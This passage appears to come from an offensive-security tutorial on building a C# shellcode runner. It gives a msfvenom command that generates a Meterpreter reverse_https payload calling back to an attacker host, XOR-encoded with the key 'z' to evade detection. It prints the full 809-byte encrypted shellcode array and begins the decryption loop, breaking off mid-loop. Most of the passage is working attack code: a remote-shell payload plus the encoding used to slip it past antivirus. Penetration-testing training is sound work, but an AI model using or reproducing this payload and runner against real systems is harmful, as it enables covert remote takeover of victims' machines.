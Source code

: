 Lastly, to make things a little cleaner, I pipe the output to the “tr” command with the “-d” flag with the argument “nr”.

This eliminates any newlines or returns in the output, thus allowing us to be able to copy and paste the generated byte array as a single line.

With the XOR encrypted payload created, we will implement it into the C# shellcode runner:

```csharp
            // Generate XOR shellcode with MSFVenom: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.x.x LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key z -i 20 | tr -d 'nr'
            byte[] buf = new byte[809] { 0x86, 0x32, 0xf9, 0x9e, 0x8a, 0x92, 0xb6, 0x7a, 0x7a, 0x7a, 0x3b, 0x2b, 0x3b, 0x2a, 0x28, 0x32, 0x4b, 0xa8, 0x2b, 0x1f, 0x32, 0xf1, 0x28, 0x1a, 0x2c, 0x32, 0xf1, 0x28, 0x62, 0x32, 0xf1, 0x28, 0x5a, 0x32, 0xf1, 0x08, 0x2a, 0x37, 0x4b, 0xb3, 0x32, 0x75, 0xcd, 0x30, 0x30, 0x32, 0x4b, 0xba, 0xd6, 0x46, 0x1b, 0x06, 0x78, 0x56, 0x5a, 0x3b, 0xbb, 0xb3, 0x77, 0x3b, 0x7b, 0xbb, 0x98, 0x97, 0x28, 0x3b, 0x2b, 0x32, 0xf1, 0x28, 0x5a, 0xf1, 0x38, 0x46, 0x32, 0x7b, 0xaa, 0x1c, 0xfb, 0x02, 0x62, 0x71, 0x78, 0x75, 0xff, 0x08, 0x7a, 0x7a, 0x7a, 0xf1, 0xfa, 0xf2, 0x7a, 0x7a, 0x7a, 0x32, 0xff, 0xba, 0x0e, 0x1d, 0x32, 0x7b, 0xaa, 0x3e, 0xf1, 0x3a, 0x5a, 0xf1, 0x32, 0x62, 0x2a, 0x33, 0x7b, 0xaa, 0x99, 0x2c, 0x37, 0x4b, 0xb3, 0x32, 0x85, 0xb3, 0x3b, 0xf1, 0x4e, 0xf2, 0x32, 0x7b, 0xac, 0x32, 0x4b, 0xba, 0xd6, 0x3b, 0xbb, 0xb3, 0x77, 0x3b, 0x7b, 0xbb, 0x42, 0x9a, 0x0f, 0x8b, 0x36, 0x79, 0x36, 0x5e, 0x72, 0x3f, 0x43, 0xab, 0x0f, 0xa2, 0x22, 0x3e, 0xf1, 0x3a, 0x5e, 0x33, 0x7b, 0xaa, 0x1c, 0x3b, 0xf1, 0x76, 0x32, 0x3e, 0xf1, 0x3a, 0x66, 0x33, 0x7b, 0xaa, 0x3b, 0xf1, 0x7e, 0xf2, 0x32, 0x7b, 0xaa, 0x3b, 0x22, 0x3b, 0x22, 0x24, 0x23, 0x20, 0x3b, 0x22, 0x3b, 0x23, 0x3b, 0x20, 0x32, 0xf9, 0x96, 0x5a, 0x3b, 0x28, 0x85, 0x9a, 0x22, 0x3b, 0x23, 0x20, 0x32, 0xf1, 0x68, 0x93, 0x31, 0x85, 0x85, 0x85, 0x27, 0x32, 0x4b, 0xa1, 0x29, 0x33, 0xc4, 0x0d, 0x13, 0x14, 0x13, 0x14, 0x1f, 0x0e, 0x7a, 0x3b, 0x2c, 0x32, 0xf3, 0x9b, 0x33, 0xbd, 0xb8, 0x36, 0x0d, 0x5c, 0x7d, 0x85, 0xaf, 0x29, 0x29, 0x32, 0xf3, 0x9b, 0x29, 0x20, 0x37, 0x4b, 0xba, 0x37, 0x4b, 0xb3, 0x29, 0x29, 0x33, 0xc0, 0x40, 0x2c, 0x03, 0xdd, 0x7a, 0x7a, 0x7a, 0x7a, 0x85, 0xaf, 0x92, 0x74, 0x7a, 0x7a, 0x7a, 0x4b, 0x43, 0x48, 0x54, 0x4b, 0x4c, 0x42, 0x54, 0x4b, 0x54, 0x48, 0x4a, 0x43, 0x7a, 0x20, 0x32, 0xf3, 0xbb, 0x33, 0xbd, 0xba, 0xc1, 0x7b, 0x7a, 0x7a, 0x37, 0x4b, 0xb3, 0x29, 0x29, 0x10, 0x79, 0x29, 0x33, 0xc0, 0x2d, 0xf3, 0xe5, 0xbc, 0x7a, 0x7a, 0x7a, 0x7a, 0x85, 0xaf, 0x92, 0x85, 0x7a, 0x7a, 0x7a, 0x55, 0x4d, 0x20, 0x3b, 0x4e, 0x10, 0x03, 0x32, 0x00, 0x4d, 0x37, 0x22, 0x28, 0x37, 0x34, 0x3b, 0x03, 0x0e, 0x39, 0x0c, 0x2d, 0x1b, 0x2b, 0x36, 0x4a, 0x39, 0x2d, 0x0f, 0x4b, 0x2a, 0x4e, 0x2a, 0x31, 0x42, 0x31, 0x15, 0x43, 0x28, 0x2a, 0x4b, 0x48, 0x4a, 0x22, 0x43, 0x19, 0x3f, 0x2f, 0x2c, 0x20, 0x3d, 0x09, 0x08, 0x19, 0x0c, 0x33, 0x17, 0x57, 0x30, 0x03, 0x0c, 0x4a, 0x38, 0x20, 0x0c, 0x20, 0x32, 0x34, 0x43, 0x3c, 0x4c, 0x2d, 0x35, 0x1b, 0x2d, 0x22, 0x4e, 0x10, 0x13, 0x32, 0x08, 0x1c, 0x02, 0x09, 0x3e, 0x36, 0x13, 0x4b, 0x02, 0x1d, 0x36, 0x3c, 0x0b, 0x23, 0x48, 0x0d, 0x42, 0x2c, 0x2d, 0x35, 0x31, 0x37, 0x39, 0x48, 0x0f, 0x10, 0x35, 0x3b, 0x4f, 0x22, 0x30, 0x2a, 0x0e, 0x57, 0x3d, 0x0c, 0x57, 0x13, 0x2d, 0x02, 0x02, 0x2f, 0x14, 0x19, 0x14, 0x38, 0x48, 0x34, 0x4d, 0x4a, 0x42, 0x42, 0x18, 0x18, 0x34, 0x16, 0x17, 0x10, 0x03, 0x2a, 0x32, 0x37, 0x0d, 0x22, 0x49, 0x18, 0x36, 0x12, 0x13, 0x13, 0x49, 0x4a, 0x34, 0x22, 0x2e, 0x2e, 0x09, 0x1f, 0x00, 0x22, 0x4a, 0x34, 0x0b, 0x34, 0x2d, 0x36, 0x3e, 0x11, 0x1d, 0x15, 0x22, 0x0c, 0x19, 0x3c, 0x30, 0x2c, 0x4c, 0x38, 0x0e, 0x39, 0x4e, 0x1b, 0x4b, 0x1c, 0x03, 0x23, 0x3f, 0x3b, 0x16, 0x48, 0x34, 0x38, 0x15, 0x4d, 0x4c, 0x32, 0x25, 0x1b, 0x35, 0x12, 0x12, 0x1e, 0x22, 0x2b, 0x1c, 0x13, 0x4b, 0x22, 0x3e, 0x1b, 0x36, 0x3c, 0x1d, 0x34, 0x0c, 0x17, 0x29, 0x1c, 0x31, 0x43, 0x25, 0x0c, 0x38, 0x49, 0x0b, 0x37, 0x2b, 0x29, 0x17, 0x08, 0x11, 0x3f, 0x42, 0x2e, 0x2d, 0x1d, 0x49, 0x0b, 0x0a, 0x16, 0x0d, 0x0a, 0x29, 0x1f, 0x0d, 0x19, 0x36, 0x4d, 0x3b, 0x0f, 0x20, 0x1c, 0x00, 0x15, 0x43, 0x7a, 0x32, 0xf3, 0xbb, 0x29, 0x20, 0x3b, 0x22, 0x37, 0x4b, 0xb3, 0x29, 0x32, 0xc2, 0x7a, 0x48, 0xd2, 0xfe, 0x7a, 0x7a, 0x7a, 0x7a, 0x2a, 0x29, 0x29, 0x33, 0xbd, 0xb8, 0x91, 0x2f, 0x54, 0x41, 0x85, 0xaf, 0x32, 0xf3, 0xbc, 0x10, 0x70, 0x25, 0x32, 0xf3, 0x8b, 0x10, 0x65, 0x20, 0x28, 0x12, 0xfa, 0x49, 0x7a, 0x7a, 0x33, 0xf3, 0x9a, 0x10, 0x7e, 0x3b, 0x23, 0x33, 0xc0, 0x0f, 0x3c, 0xe4, 0xfc, 0x7a, 0x7a, 0x7a, 0x7a, 0x85, 0xaf, 0x37, 0x4b, 0xba, 0x29, 0x20, 0x32, 0xf3, 0x8b, 0x37, 0x4b, 0xb3, 0x37, 0x4b, 0xb3, 0x29, 0x29, 0x33, 0xbd, 0xb8, 0x57, 0x7c, 0x62, 0x01, 0x85, 0xaf, 0xff, 0xba, 0x0f, 0x65, 0x32, 0xbd, 0xbb, 0xf2, 0x69, 0x7a, 0x7a, 0x33, 0xc0, 0x3e, 0x8a, 0x4f, 0x9a, 0x7a, 0x7a, 0x7a, 0x7a, 0x85, 0xaf, 0x32, 0x85, 0xb5, 0x0e, 0x78, 0x91, 0xd0, 0x92, 0x2f, 0x7a, 0x7a, 0x7a, 0x29, 0x23, 0x10, 0x3a, 0x20, 0x33, 0xf3, 0xab, 0xbb, 0x98, 0x6a, 0x33, 0xbd, 0xba, 0x7a, 0x6a, 0x7a, 0x7a, 0x33, 0xc0, 0x22, 0xde, 0x29, 0x9f, 0x7a, 0x7a, 0x7a, 0x7a, 0x85, 0xaf, 0x32, 0xe9, 0x29, 0x29, 0x32, 0xf3, 0x9d, 0x32, 0xf3, 0x8b, 0x32, 0xf3, 0xa0, 0x33, 0xbd, 0xba, 0x7a, 0x5a, 0x7a, 0x7a, 0x33, 0xf3, 0x83, 0x33, 0xc0, 0x68, 0xec, 0xf3, 0x98, 0x7a, 0x7a, 0x7a, 0x7a, 0x85, 0xaf, 0x32, 0xf9, 0xbe, 0x5a, 0xff, 0xba, 0x0e, 0xc8, 0x1c, 0xf1, 0x7d, 0x32, 0x7b, 0xb9, 0xff, 0xba, 0x0f, 0xa8, 0x22, 0xb9, 0x22, 0x10, 0x7a, 0x23, 0xc1, 0x9a, 0x67, 0x50, 0x70, 0x3b, 0xf3, 0xa0, 0x85, 0xaf };
            // XOR decrypt, key is set to 'z'
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'z');
```